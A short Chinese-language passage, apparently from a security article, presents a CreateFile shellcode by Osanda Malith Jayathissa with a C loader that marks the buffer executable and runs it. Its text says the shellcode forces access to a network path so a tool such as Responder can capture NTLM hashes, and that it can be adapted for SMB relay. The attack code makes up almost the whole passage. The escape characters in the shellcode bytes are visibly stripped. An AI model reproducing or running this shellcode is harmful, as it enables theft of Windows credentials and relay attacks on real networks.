 

**Shellcode**

下面的[Shellcode](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)使用了CreateFile函数，并尝试读取一个不存在的网络路径。你可以使用类似Responder的工具抓取NTLM HASH值。通过修改Shellcode，攻击者甚至可以直接偷取网络中传输的其他HASH。也可以执行SMBRelay攻击。代码如下：



```
/*
    Title: CreateFile Shellcode
    Author: Osanda Malith Jayathissa (@OsandaMalith)
    Website: https://osandamalith.com
    Size: 368 Bytes
*/
# include &lt;stdlib.h&gt;
# include &lt;stdio.h&gt;
# include &lt;string.h&gt;
# include &lt;windows.h&gt;
int main() {
  char *shellcode = 
  "xe8xffxffxffxffxc0x5fxb9x4cx03x02x02x81xf1x02x02"
  "x02x02x83xc7x1dx33xf6xfcx8ax07x3cx05x0fx44xc6xaa"
  "xe2xf6xe8x05x05x05x05x5ex8bxfex81xc6x29x01x05x05"
  "xb9x02x05x05x05xfcxadx01x3cx07xe2xfax56xb9x8dx10"
  "xb7xf8xe8x5fx05x05x05x68x31x01x05x05xffxd0xb9xe0"
  "x53x31x4bxe8x4ex05x05x05xb9xacxd5xaax88x8bxf0xe8"
  "x42x05x05x05x6ax05x68x80x05x05x05x6ax03x6ax05x6a"
  "x01x68x05x05x05x80x68x3ex01x05x05xffxd0x6ax05xff"
  "xd6x33xc0x5exc3x33xd2xebx10xc1xcax0dx3cx61x0fxbe"
  "xc0x7cx03x83xe8x20x03xd0x41x8ax01x84xc0x75xeax8b"
  "xc2xc3x8dx41xf8xc3x55x8bxecx83xecx14x53x56x57x89"
  "x4dxf4x64xa1x30x05x05x05x89x45xfcx8bx45xfcx8bx40"
  "x0cx8bx40x14x89x45xecx8bxf8x8bxcfxe8xd2xffxffxff"
  "x8bx70x18x8bx3fx85xf6x74x4fx8bx46x3cx8bx5cx30x78"
  "x85xdbx74x44x8bx4cx33x0cx03xcexe8x96xffxffxffx8b"
  "x4cx33x20x89x45xf8x33xc0x03xcex89x4dxf0x89x45xfc"
  "x39x44x33x18x76x22x8bx0cx81x03xcexe8x75xffxffxff"
  "x03x45xf8x39x45xf4x74x1cx8bx45xfcx8bx4dxf0x40x89"
  "x45xfcx3bx44x33x18x72xdex3bx7dxecx75x9cx33xc0x5f"
  "x5ex5bxc9xc3x8bx4dxfcx8bx44x33x24x8dx04x48x0fxb7"
  "x0cx30x8bx44x33x1cx8dx04x88x8bx04x30x03xc6xebxdf"
  "x21x05x05x05x50x05x05x05x6bx65x72x6ex65x6cx33x32"
  "x2ex64x6cx6cx05x2fx2fx65x72x72x6fx72x2fx61x61x05";
  DWORD oldProtect;
  wprintf(L"Length : %d bytesn@OsandaMalith", strlen(shellcode));
  BOOL ret = VirtualProtect (shellcode, strlen(shellcode), PAGE_EXECUTE_READWRITE, &amp;oldProtect);
  if (!ret) {
      fprintf(stderr, "%s", "Error Occured");
      return EXIT_FAILURE;
  }
  ((void(*)(void))shellcode)();
  VirtualProtect (shellcode, strlen(shellcode), oldProtect, &amp;oldProtect);
  return EXIT_SUCCESS;
}
```
